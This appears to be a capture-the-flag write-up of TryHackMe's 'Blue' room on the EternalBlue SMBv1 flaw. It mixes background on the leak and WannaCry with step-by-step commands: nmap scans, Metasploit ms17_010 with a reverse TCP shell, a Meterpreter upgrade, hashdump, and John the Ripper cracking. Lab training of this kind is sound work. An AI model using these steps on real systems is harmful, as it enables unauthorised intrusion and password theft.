



A Study In Blue
Author: Kyle Droulard
This is a study of the vulnerability CVE-2017-0144, publicly known as EternalBlue. This vulnerability came to light in April 2017, when a group called The Shadow Brokers leaked a toolset belonging to the NSA-linked group Equation Group. While the leak unveiled a stock pile of zero-day exploits, it was EternalBlue that truly became infamous.
Attacks like WannaCry (May 2017) and NotPetya (June 2017) were direct fallout from this leak. Millions of businesses, hospitals, and governments were affected. The aftermath sparked global concern about the risks of stockpiling zero day vulnerabilities.
If your curious about the bigger picture behind zero-day exploits and cyber arms dealing, check out This Is How They Tell Me the World Ends by Nicole Perlroth. Her writing reads like a Bond novel, weaving real-world cyber espionage into a gripping, global narrative.
In the remainder of this write-up, we’ll examine the EternalBlue exploit from an attacker’s perspective by completing the ‘Blue’ room on TryHackMe.
Initial Discovery:
After booting up the Blue machine, the first step is to perform a port scan to identify potential vulnerabilities. This is done by using nmap, which reveals that the host is a Microsoft Windows 2008 Server running SMB. As this appears to be SMBv1, it leads us to suspect that it might be vulnerable to MS17-010 (Eternal Blue). We can confirm this with an Nmap scan.
Command nmap -A <target-ip>
Command:nmap -p445 --script smb-vuln-ms17-010 <target-ip>

Understanding EternalBlue
EternalBlue (CVE-2017-0144) is a critical vulnerability in the MS SMBv1 protocol that allows for unauthenticated remote code execution on unpatched systems.
The flaw exists because SMBv1 did not properly validate specially crafted network packets. By sending malicious SMB packets an attacker could trigger a buffer overflow in the Windows kernel. This overflow enabled execution of arbitrary code - without needing valid credentials or user interaction.
EternalBlue was particularly dangerous because:
- Wormability: It could spread automatically between vulnerable machines without user interaction.
- Stealth: It was a low-level system flaw making it difficult to detect or prevent.
- Widespread Impact: It was used in global ransomware attacks like WannaCry (May 2017) and NotPetya (June 2017), which caused widespread havoc and billions of dollars in damages.
The devices impacted were:
- Windows XP
- Windows 7
- Windows Server 2003/2008
Microsoft released a patch for the vulnerability in March 2017 under identifier MS17-010, but many machines remained unpatched when the NSA’s exploit was leaked by the Shadow brokers in April 2017.
A Side Note: WannaCry had an unusual mitigation - a researcher accidentally discovered a “kill switch” that helped stop its spread. For more on it see this article by TechCrunch.
Gaining Access
Now that we have confirmed the target is likely vulnerable to MS17-010, we can begin exploitation. While tools like SearchSploit reveal a variety of PoC exploits, we’ll use Metasploit for ease of use and reliability.
First, launch Metasploit with msfconsole, then search for eternalblue or ms17_010.
Configure the exploit options and run it to create a reverse shell on the target.
set payload payload/windows/x64/shell/reverse_tcp
set RHOSTS <target-ip>
run
Maintaining Access
To maintain access and perform further post-exploitation tasks, we can escalate the shell session to a Meterpreter session. (Note: You’ll need to background your current session with ctrl+z).
use post/multi/manage/shell_to_meterpreter
set SESSION <session-id>
run
Once upgraded, we can extract password hashes from the machine using the Meterpreter built-in hashdump utility. (Note: Requires SYSTEM privileges)


With the extracted hashes we can then obtain the password via john:
john --format=NT --rules --w=/usr/share/wordlists/rockyou.txt <password-file>